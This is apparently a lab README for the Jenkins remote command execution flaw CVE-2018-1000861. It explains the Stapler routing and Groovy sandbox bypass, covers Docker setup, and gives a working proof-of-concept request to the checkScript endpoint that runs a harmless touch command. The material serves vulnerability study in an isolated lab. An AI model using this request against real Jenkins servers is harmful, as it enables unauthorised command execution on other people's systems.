

# Jenkins Remote Command Execution Vulnerability (CVE-2018-1000861)

**Jenkins** is developed using the Stapler framework, which allows users to invoke public methods once via **URL** **PATH**. Since this process is not made restrictive, an attacker can construct some special **PATH** to execute some sensitive **Java** methods.

Through this vulnerability, we can find many exploit chains that can be exploited. One of the most serious is to bypass the Groovy sandbox leads to unauthorized users can execute arbitrary commands : Jenkins in the sandbox to execute Groovy before the script will be checked for errors , checking the operation is not sandboxed , the attacker can be through the Meta-Programming way , in checking this step to execute arbitrary commands .


## Environment Setup

Start a **Jenkins 2.138** by executing the following command, and the plugin containing the vulnerability has been installed:

```bash
docker-compose up -d
```

Once the environment is up, visit `http://your-ip:8080` to see a Jenkins that has been successfully initialized without any further action.

## Vulnerability Replication

Using the [one-click POC script](https://github.com/orangetw/awesome-jenkins-rce-2019) given by @orangetw, send the following request to successfully execute the command:

```bash
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy. SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```



`/tmp/success` has been successfully created:


For a detailed guide on the **Jenkins Remote Command Execution Vulnerability (CVE-2018-1000861)**, including a comprehensive explanation of the vulnerability and potential attack, please refer to the project's documentation at [GitHub Pages](https://sne-m23-sn.github.io/Vulnerable-Nodes-Lab/#CVE-2018-1000861).
